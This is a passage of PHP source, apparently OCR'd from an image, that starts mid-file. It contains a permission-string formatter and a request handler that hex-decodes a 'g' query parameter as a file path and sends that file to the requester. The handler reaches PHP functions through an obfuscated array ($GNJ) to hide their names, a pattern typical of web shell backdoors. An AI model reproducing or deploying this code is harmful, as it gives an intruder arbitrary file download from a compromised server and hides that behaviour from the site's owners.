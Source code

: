 		}
		elseif(($x & 0x6000) == 0x6000) {
			$u = "b";
		}
		elseif(($x & 0x4000) == 0x4000) {
			$u = "d";
		}
		elseif(($x & 0x2000) == 0x2000) {
			$u = "c";
		}
		elseif(($x & 0x1000) == 0x1000) {
			$u = "p";
		}
		else {
			$u = "u";
		}
		$u .= (($x & 0x0100) ? "r" : "-");
		$u .= (($x & 0x0080) ? "w" : "-");
		$u .= (($x & 0x0040) ? (($x & 0x0800) ? "s" : "x") : (($x & 0x0800) ? "S" : "-"));
		$u .= (($x & 0x0020) ? "r" : "-");
		$u .= (($x & 0x0010) ? "w" : "-");
		$u .= (($x & 0x0008) ? (($x & 0x0400) ? "s" : "x") : (($x & 0x0400) ? "S" : "-"));
		$u .= (($x & 0x0004) ? "r" : "-");
		$u .= (($x & 0x0002) ? "w" : "-");
		$u .= (($x & 0x0001) ? (($x & 0x0200) ? "t" : "x") : (($x & 0x0200) ? "T" : "-"));
		return $u;
	}
	if(isset($_GET["g"])) {
		$GNJ[38]($GNJ[9]);
		header("Content-Type: application/octet-stream");
		header("Content-Transfer-Encoding: Binary");
		header("Content-Length: ".$GNJ[34](uhex($_GET["g"])));
		header("Content-disposition: attachment; filename=\"".uhex($_GET["g"])."\"");
		$GNJ[37](uhex($_GET["g"]));
	}
?>
